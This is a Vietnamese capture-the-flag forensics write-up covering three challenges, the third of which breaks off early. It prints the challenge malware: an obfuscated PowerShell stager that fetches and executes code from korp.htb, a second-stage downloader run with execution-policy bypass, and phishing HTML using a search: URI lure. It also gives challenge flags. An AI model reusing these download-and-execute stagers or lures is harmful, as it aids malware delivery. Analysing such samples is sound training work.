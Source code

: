 ![image](https://github.com/user-attachments/assets/94a89594-6f36-4233-9bcf-da33d5406dc2)

# _Thorin’s Amulet_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/1f8fd6b4-c229-4ca2-aa4e-ce5120d5db9e)

Nhận được file ps1

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Decode base64 nhận được 1 đường link, thử truy dùng port để truy cập nhưng kh đc

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Đọc kĩ lại mô tả thì thấy có NOTE

> Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

Mình dùng kali để add IP và domain vào /etc/host/

![image](https://github.com/user-attachments/assets/639b3022-3acc-40ac-be10-345154933c52)

Truy cập thử, thì nhận được file ps1 tiếp

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Lệnh trên thực hiện tải file ps1 và chạy với lệnh Bypass, muốn xem file có gì thì mình dùng curl kết hợp với KEY xác thực

![image](https://github.com/user-attachments/assets/f404de2a-bac1-4d15-a224-45825120d93a)

Decode là nhận được flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

# _A new hire_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/e9725ec1-0825-45f3-b533-a3cb000b9160)

Tiếp tục là file email.eml, mở ra xem 

![image](https://github.com/user-attachments/assets/291d60c8-f0a1-41fa-860e-fcc4ffbf43ca)

Hmm khá giống với thử thách trước, add IP và domain vô /etc/hosts/

Truy cập http://storage.microsoftcloudservices.com:[PORT]//index.php

![image](https://github.com/user-attachments/assets/05a439ab-318b-4540-b8f9-47677819ce09)

Xem source, chú ý đến đoạn sau

```html
  <div class="blur-overlay">
    <button class="view-button" onclick="getResume()">View Full Resume</button>
  </div>
  <script defer="defer">
    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
  </script>
```

Trang web bị blur, mình thử bỏ nó đi thì nhận được nội dung giống như 1 CV, kh có gì đáng chú ý

![image](https://github.com/user-attachments/assets/7d5f0228-6d81-4d0b-82ee-fb8e990d5665)

Nhìn xuống tiếp hàm getResume(), thấy được sử dụng JavaScript để điều khiển hiển thị nội dung và chuyển hướng người dùng đến một tệp \\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\, nhưng mình nhấn View Full Resume khi trang web đang bị blur thì kh thấy gì

Từ đây mình nghĩ có thể lấy đường link _http://storage.microsoftcloudservices.com:[PORT]//index.php_  thay index.php thành \\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\ và truy cập trực tiếp luôn

![image](https://github.com/user-attachments/assets/7c4e4922-6dc1-4d35-8971-8e2b92d44b08)

Tải file Resume.pdf.link về 

![image](https://github.com/user-attachments/assets/d37b2856-beab-4091-9bc9-cad6a70802aa)

Decode base64

![image](https://github.com/user-attachments/assets/f5b5a99a-28aa-44ff-b378-518aa73ef0ff)

Có 1 đoạn pws được dùng để mở và truy cập các đường link, truy cập vô client.py

![image](https://github.com/user-attachments/assets/1944f076-b948-47c5-afb7-fc71aef2bb7e)

Thấy có 1 key và 1 data khá dài, bên dưới dùng lệnh xor key với data và chạy lệnh exec để thực thi, mình thử thay thành print để in luôn kết quả nhưng vẫn bị mã hóa, loay hoay mãi thì thử base64 decrypt key thì có được flag :v Lừa vl

```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```

# _Cave Expedition_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/7483bc04-6ee6-4cd3-be34-48f176dce7bf)

Bài cho tất cả các tệp log được sắp xếp theo bảng chữ cái hmm, ngồi đọc chay hết chắc cũng ốm mất

Dùng tool Evtxcmd để trích xuất hết ra csv rồi ngồi lọc thôi








